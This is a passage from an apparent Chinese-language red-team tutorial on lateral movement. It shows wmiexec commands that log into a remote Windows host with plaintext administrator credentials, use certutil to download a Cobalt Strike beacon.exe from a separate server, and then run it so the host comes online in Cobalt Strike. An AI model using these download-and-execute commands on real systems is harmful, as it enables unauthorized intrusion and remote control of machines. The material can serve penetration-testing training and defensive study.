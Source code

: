 [![](assets/1702372940-46c7024033df7292821fd47be1a07728.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/7.png)

**缺点**：wmic和cscript都无法进行`hash`传递

#### [](#wmiexec "wmiexec")wmiexec[](#wmiexec)

第三方软件 (交互式&单执行)，此方法无法在`cs`中执行后回显,但可利用文件下载命令上线cs：

```bash
# 执行命令将文件从远程服务器下载到本地
shell c:\wmiexec ./administrator:Abcd1234@192.168.91.178 "cmd.exe /c certutil -urlcache -split -f http://192.168.91.1/beacon.exe c:/beacon.exe"


# 执行命令并上线，跳过回显
shell c:\wmiexec ./administrator:Abcd1234@192.168.91.178 "cmd.exe /c c:/beacon.exe"
```
